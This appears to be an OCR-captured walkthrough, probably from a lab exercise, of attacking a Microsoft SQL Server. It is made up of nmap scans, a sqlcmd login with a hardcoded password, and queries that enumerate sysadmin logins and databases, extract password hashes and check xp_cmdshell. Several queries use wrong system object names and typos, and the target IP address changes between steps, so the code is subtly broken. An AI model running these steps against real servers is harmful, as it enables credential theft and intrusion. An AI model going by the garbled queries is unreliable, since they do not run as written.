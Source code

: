 In Powershell:
>Scanning full range using nmap to discover target machine IP address
>`nmap 10.5.17.0/20 --open`
>Running nmap ms-sql-info script to get more information about the target SQL Server
>`nmap --script ms-sql-info -p1433 10.2.4.6`
>Connecting to the target MSSQL machine using sqlcmd utility
>`sqlcmd -s 10.5.17.68 -U admin -P anamaria`
>Checking MSSQL version details
>1>`select @@version`
>2>`go`

>Checcking current database
>1>`select db_name();`
>2>`go`

>Checking target machine hostname
>1>`select HOST_NAME();`
>2>`go`

>Extracting all sys logins
>1>`select loginname from syslogin wher sysadmin = 1;`
>2>`go`

>Extracting all available databases
>1>`select name from sys_databases;`
>2>`go`

>Extracting SQL users hashes
>1>`select name, password_hash FROM master_sys_sql_logins;`
>2>`go`

>Getting details of xp_cmdshell
>1>`select name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys_configurations WHERE name = 'xp_cmdshell';`
>2>`go`